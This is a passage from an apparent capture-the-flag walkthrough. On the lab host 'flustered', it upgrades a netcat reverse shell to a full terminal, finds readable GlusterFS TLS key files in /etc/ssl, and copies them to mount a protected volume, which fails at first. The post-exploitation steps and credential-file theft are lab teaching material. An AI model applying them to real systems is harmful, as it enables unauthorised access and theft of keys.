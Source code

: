     www-data@flustered:~.md/app$ script /dev/null -c bash
    script /dev/null -c bash
    Script started, file is /dev/null
    www-data@flustered:~.md/app$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    www-data@flustered:~.md/app$



## Shell as jennifer

### Enumeration

There's not much to find in the web directories. There's one user with a
home directory, jennifer, but www-data can't access it:



    www-data@flustered:/home$ ls -l
    total 4
    drwxr-x--- 5 jennifer jennifer 4096 Oct 25 06:49 jennifer



www-data can read files in `/etc/ssl` (which isn't the default config):



    www-data@flustered:/etc/ssl$ ls -l
    total 44
    drwxr-xr-x 2 root root 16384 Jan 28 10:00 certs
    -rw-r--r-- 1 root root  4060 Nov 25 15:42 glusterfs.ca
    -rw-r--r-- 1 root root  3243 Nov 25 15:24 glusterfs.key
    -rw-r--r-- 1 root root  1822 Nov 25 15:27 glusterfs.pem
    -rw-r--r-- 1 root root 11118 Aug 24 09:30 openssl.cnf
    drwx------ 2 root root  4096 Jan 28 10:00 private



`glusterfs.pem` was one of the files that wasn't present when trying to
mount `vol1`.

### Mount vol1

I'll copy `glusterfs.pem` into my local `/etc/ssl` directory, and try
the mount again. It still returns errors, this time looking for
`glusterfs.key`:



    [2022-02-07 11:41:20.584384] E [socket.c:4469:ssl_setup_connection_params] 0-vol1-client-0: could not load private key at /etc/ssl/glusterfs.key
    [2022-02-07 11:41:20.584406] E [socket.c:241:ssl_dump_error_stack] 0-vol1-client-0:   error:02001002:system library:fopen:No such file or directory
    [2022-02-07 11:41:20.584415] E [socket.c:241:ssl_dump_error_stack] 0-vol1-client-0:   error:20074002:BIO routines:file_ctrl:system lib
    [2022-02-07 11:41:20.584423] E [socket.c:241:ssl_dump_error_stack] 0-vol1-client-0:   error:140B0002:SSL routines:SSL_CTX_use_PrivateKey_file:system lib
